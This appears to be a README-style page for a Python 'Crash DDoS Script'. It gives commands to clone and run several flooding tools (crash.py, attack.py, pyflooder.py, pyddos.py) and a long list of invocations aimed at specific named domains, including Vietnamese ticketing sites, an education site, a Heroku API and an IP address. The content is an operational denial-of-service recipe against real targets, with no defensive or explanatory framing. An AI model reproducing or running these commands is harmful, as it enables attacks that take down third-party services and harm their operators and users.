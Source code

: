 - Crash DDoS Script - Python 3
```
git clone https://github.com/lehongphuong/python-ddos.git
cd python-ddos
chmod +x crash.py
python3 crash.py www.site.com port 80

python3 crash.py www.site.com 80
Default port 80 - site www not http
```
python3 crash.py phongvesaky.com 80
python3 crash.py phongvecangsaky.com 80
python3 crash.py hce.edu.vn 80 
python3 crash.py www.phongvecangsaky.com 443

python3 crash.py www.vetaulyson.com 443 

python3 crash.py api-datve.herokuapp.com 80 
http://api-datve.herokuapp.com/

python3 crash.py www.abchome.com 80

python3 crash.py tauchinnghia.vn 443


python3 crash.py www.phongvecangsaky.com 8080

python attack.py -c 20 https://www.phongvecangsaky.com/
python attack.py [option] https://www.phongvecangsaky.com/

python3 pyflooder.py phongvecangsaky.com 8080 100000000


python pyddos.py -d www.phongvecangsaky.com -p 80 -T 2000 -Pyslow

103.28.36.94

git clone https://github.com/R00TD4nZ/crash
cd crash
chmod +x crash.py
python3 crash.py www.phongvecangsaky.com 443
